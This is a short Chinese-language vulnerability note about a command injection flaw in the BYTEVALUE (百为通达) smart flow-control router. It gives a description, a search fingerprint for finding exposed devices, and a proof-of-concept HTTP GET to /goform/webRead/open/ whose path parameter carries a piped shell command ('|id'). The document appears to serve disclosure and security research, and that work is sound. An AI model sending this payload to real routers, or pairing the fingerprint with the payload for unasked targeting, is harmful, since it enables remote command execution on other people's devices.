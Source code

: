 # 

# 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

百为通达 智能流控路由器

## 网络测绘

```
"BYTEVALUE 智能流控路由器"
```

## 漏洞复现

登陆页面

![image-20231116142008257](images/image-20231116142008257.png)

poc

```
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

![image-20231116142021268](images/image-20231116142021268.png)
